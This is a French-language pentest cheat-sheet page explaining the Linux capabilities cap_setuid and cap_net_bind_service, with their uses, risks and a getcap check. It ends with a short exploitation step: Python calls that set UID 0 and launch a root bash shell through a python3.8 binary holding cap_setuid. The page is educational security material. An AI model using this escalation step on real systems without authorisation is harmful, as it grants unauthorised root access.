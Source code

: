 # CAP\_SETUID / CAP\_NET\_BIND\_SERVICE

{% hint style="warning" %}
Les capacités Linux sont un mécanisme de contrôle fin des privilèges, permettant à des programmes d’exécuter certaines opérations privilégiées sans nécessiter le bit SUID (Set User ID). Elles divisent les privilèges du superutilisateur en unités plus petites et contrôlables.
{% endhint %}

***

### <mark style="color:blue;">1.</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**cap\_setuid**</mark>

#### Description

* `cap_setuid` permet à un processus de changer son **User ID (UID)**, c’est-à-dire d’adopter l’identité d’un autre utilisateur, souvent root (UID 0).
* Cette capacité permet donc d’élever ses privilèges sans que le binaire ait le bit SUID activé.

#### Usage typique

* Permet à un programme de changer son UID pour exécuter des actions avec les privilèges d’un autre utilisateur.
* Utilisée souvent pour les opérations nécessitant une élévation temporaire de privilèges.

#### Risques de sécurité

* Si un binaire avec cette capacité est accessible et exploitable, un attaquant peut obtenir un shell avec des privilèges root.
* Cela peut contourner la sécurité basée sur le bit SUID et permettre une escalade de privilèges.

#### <mark style="color:green;">Commande pour vérifier les capacités d’un fichier</mark>

```bash
getcap /chemin/du/binaire
```

***

### <mark style="color:blue;">2.</mark> <mark style="color:blue;"></mark><mark style="color:blue;">**cap\_net\_bind\_service**</mark>

#### Description

* `cap_net_bind_service` autorise un programme à **se lier (bind) à des ports réseau inférieurs à 1024**, qui sont généralement réservés aux processus root.
* Ces ports dits "privilégiés" (ex: 80 pour HTTP, 443 pour HTTPS, 22 pour SSH) ne peuvent pas être utilisés par défaut par des utilisateurs non privilégiés.

#### Usage typique

* Serveurs web, services réseau, ou applications qui doivent écouter sur des ports privilégiés sans tourner en tant que root.
* Permet d'améliorer la sécurité en évitant que des services tournent entièrement en root.

#### Risques de sécurité

* Si mal configuré, un binaire avec cette capacité peut être exploité pour écouter sur des ports critiques et intercepter des communications.
* En combinaison avec d’autres failles, peut faciliter des attaques réseau ou des escalades.

***

### <mark style="color:red;">STEPS</mark>

#### <mark style="color:green;">Vérifier les capacités d’un binaire (exemple python3.8)</mark>

```bash
getcap /usr/bin/python3.8
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+ep
```

#### <mark style="color:green;">Exploitation</mark>

```python
os.setuid(0)  # Passage à root (UID 0)
os.system("/bin/bash")  # Lancement d’un shell root
```

***

***
